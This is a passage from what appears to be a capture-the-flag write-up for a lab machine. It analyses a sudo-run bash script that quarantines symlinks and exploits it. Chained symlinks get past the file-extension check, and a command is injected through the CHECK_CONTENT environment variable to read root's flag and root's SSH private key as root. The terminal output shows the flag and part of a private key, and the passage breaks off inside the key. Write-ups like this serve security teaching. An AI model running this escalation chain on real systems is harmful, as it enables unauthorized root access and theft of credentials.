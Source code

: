 ```bash
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

This script seems to be trying to validate and quarantine symlinks pointing to `.png` files. 

Based on the script, we can exploit this via Symlink Chains (symlinks pointing to another symlink).

What we can do is the following:

-   Bypass extension checks by creating a symlink that points to another (fake) symlink that ends with a `.png`.
-   Point the fake symlink to some arbitrary file.
-   Export the `CHECK_CONTENT` to our malicious read command (`/bin/cat /root/root.txt`)
-   Exploit.

```bash
bob@linkvortex:/tmp$ ln -s /tmp/fake.png /tmp/exploit.png
bob@linkvortex:/tmp$ ln -s /dev/null /tmp/fake.png
bob@linkvortex:/tmp$ export CHECK_CONTENT='/bin/cat /root/root.txt'
bob@linkvortex:/tmp$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/exploit.png 
/opt/ghost/clean_symlink.sh: line 5: [: /bin/cat: binary operator expected
Link found [ /tmp/exploit.png ] , moving it to quarantine
779d0ff9be29244ba048b546b98c7fec
Content:
```

Another better way is to read the `/root/.ssh/id_rsa` file.

```bash
bob@linkvortex:/tmp$ export CHECK_CONTENT='/bin/cat /root/.ssh/id_rsa'
bob@linkvortex:/tmp$ ln -s /tmp/fake.png /tmp/exploit.png
bob@linkvortex:/tmp$ ln -s /dev/null /tmp/fake.png
bob@linkvortex:/tmp$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/exploit.png 
/opt/ghost/clean_symlink.sh: line 5: [: /bin/cat: binary operator expected
Link found [ /tmp/exploit.png ] , moving it to quarantine
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
6sKpMThUctYpWnzAc4yBN/mavhY7v5+TEV0FzPYZJ2spoeB3OGBcVNzSL41ctOiqGVZ7yX
TQ6pQUZxR4zqueIZ7yHVsw5j0eeqlF8OvHT81wbS5ozJBgtjxySWrRkkKAcY11tkTln6NK
CssRzP1r9kbmgHswClErHLL/CaBb/04g65A0xESAt5H1wuSXgmipZT8Mq54lZ4ZNMgPi53
jzZbaHGHACGxLgrBK5u4mF3vLfSG206ilAgU1sUETdkVz8wYuQb2S4Ct0AT14obmje7oqS
0cBqVEY8/m6olYaf/U8dwE/w9beosH6T7arEUwnhAAAFiDyG/Tk8hv05AAAAB3NzaC1yc2
EAAAGBAJqR1YVddTFu3hrfVnidt61bqpVpzKRfhXJVmMKeEgAnAIpWXThfE6tnoGH3jJoC
PSKDNA3cgykuLxvpSKFqCRH2X/nFcGmSM02cCpuxAmxdjsvrtkg/l+5RvQOldcZJloUFhL
woiNtlIyKBZCNKDnw65umUE8mRffQKgVXMBgoxAOu3hCrf+aHozeWIC+yKburCqTE4VHLW
KVp8wHOMgTf5mr4WO7+fkxFdBcz2GSdrKaHgdzhgXFTc0i+NXLToqhlWe8l00OqUFGcUeM
```